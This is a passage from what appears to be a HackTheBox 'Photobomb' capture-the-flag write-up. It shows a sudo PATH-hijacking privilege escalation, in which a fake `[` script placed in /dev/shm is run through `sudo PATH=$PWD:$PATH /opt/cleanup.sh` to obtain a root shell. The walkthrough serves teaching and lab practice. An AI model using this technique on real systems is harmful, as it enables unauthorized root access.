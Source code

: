 This is clean on Photobomb:

    
    
    wizard@photobomb:/dev/shm$ which [
    /usr/bin/[
    wizard@photobomb:/dev/shm$ file /usr/bin/[ 
    /usr/bin/[: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=99cfd563b4850f124ca01f64a15ec24fd8277732, for GNU/Linux 3.2.0, stripped
    

In a typical shell, the binary isn’t called, as it’s a [Bash
builtin](https://manpages.ubuntu.com/manpages/bionic/man7/bash-
builtins.7.html). So even with no `$PATH`, it can still be called (like
`echo`):

    
    
    wizard@photobomb:/dev/shm$ export PATH=''
    wizard@photobomb:/opt$ [ -s cleanup.sh ] && echo "exists"
    exists
    

But, `enable -n [` disables it (see the [bash man
page](https://linux.die.net/man/1/bash)). That means that I can do the same
trick above, but with `[`:

    
    
    wizard@photobomb:/dev/shm$ rm find
    wizard@photobomb:/dev/shm$ echo -e '#!/bin/bash\n\nbash' > [
    wizard@photobomb:/dev/shm$ chmod +x [
    wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
    root@photobomb:/dev/shm#
    

[](/2023/02/11/htb-photobomb.html)

